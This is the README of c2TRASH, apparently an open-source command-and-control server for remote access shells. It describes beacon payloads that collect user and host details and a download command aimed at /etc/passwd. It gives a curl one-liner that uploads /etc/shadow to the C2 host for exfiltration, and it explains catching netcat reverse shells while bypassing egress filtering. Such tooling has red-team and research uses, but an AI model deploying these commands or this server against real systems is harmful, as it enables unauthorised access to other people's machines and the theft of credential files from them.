 c2TRASH - C2 Tool for Remote Access Shells (Hopefully)
======
**c2TRASH** is a simple HTTPS beaconing C2 server that can manage RATs that follow the c2TRASH protocol
## The Protocol

HTTPS with JSON payloads

### Beacons

Something like (example writen in python) ```
{
        "usr":getpass.getuser(),
        "hostname":socket.gethostname(),
        "cwd": os.getcwd(),
        "time": time.time(),
        "beacon":True
}
```

### Command Payloads

Something like ```
{
    "ls":"-al"
}
```
or 
{
    "download":"/etc/passwd"
}
```

## Features

### Static File Server

Files stored in `<install-dir>/static` can be downloaded from https://<ip>:<port>/filename

### Upload Endpoint

File uploads are accepted to aid in exfiltration. This is used by the `download` c2TRASH command, but can be invoked directly:

Example:
```
curl -k -F '/etc/shadow=@/etc/shadow' https://<c2TRASH>/upload.php
```

### Flexible shells

Shell primitives are stored in `<install-dir>/shell` and are custimized when thrown to contain the current LHOST and LPORT values.

These shells can be customized or added to at runtime without stopping the c2TRASH server.

### Shell management

Even if you aren't using \*TRASH clients, you can still use c2TRASH to manage your shells.

The `listen` `catch` commands are helpers that can be called directly to catch raw TCP shells from other tools (or netcat).

c2TRASH uses iptables and tmux shenanigans to multiplex an arbitrary number of these raw shells over the the external port [to bypass egress filtering] on the c2TRASH server.

e.g. You can throw 100 different netcat shells to <c2TRASH>:80 and catch them all in their own new tmux session running a naive netcat listener.

### Mutiple Targets

Multiple targets can be managed by c2TRASH at the same time. Commands not recognized by c2TRASH are sent to the currently selected target to be executed. The result is a meterpreter-like shell that is A) encrypted B) beaconing (with a customizable interval that can be changed with `set beacon`)


### Stability?

Ha, no

